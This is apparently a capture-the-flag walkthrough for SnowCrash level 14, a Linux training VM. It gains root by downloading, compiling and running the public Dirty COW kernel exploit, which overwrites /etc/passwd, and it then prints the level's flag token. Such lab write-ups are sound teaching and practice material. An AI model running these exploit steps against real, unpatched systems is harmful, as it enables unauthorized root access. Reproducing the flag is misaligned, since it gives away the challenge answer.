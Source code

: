# SnowCrash Level14 Guide
This guide will walk you through the process to connect as the `flag14` user.

## Procedure:

1. **Examine your environment**

`uname -a` : Display system informations.
```
Linux SnowCrash 3.2.0-89-generic-pae #127-Ubuntu SMP Tue Jul 28 09:52:21 UTC 2015 i686 i686 i386 GNU/Linux
```

The linux kernel version 3.2.0-89-generic-pae is vulnerable to dirty cow exploit.

2. **Getting exploit sources**

On client download the exploit source file:
```bash
wget https://raw.githubusercontent.com/firefart/dirtycow/refs/heads/master/dirty.c
```

Copy the file on host:
```bash
scp -P 4242 ./dirty.c level14@<host-ip>:/tmp/dirty.c
```

Compile file on host:
```bash
cd /tmp
gcc -pthread dirty.c -o dirty -lcrypt
```

Run exploit:
```bash
./dirty
[enter new password]
```

In another tty connect as firefart with the new password.
Restore the old passwd file:
```
mv /tmp/passwd.bak /etc/passwd
```

3. **Get the flag**

Switch to user flag14:
```bash
su flag14
```

Get the flag:
```bash
getflag
```

Check flag.Here is your token : 7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ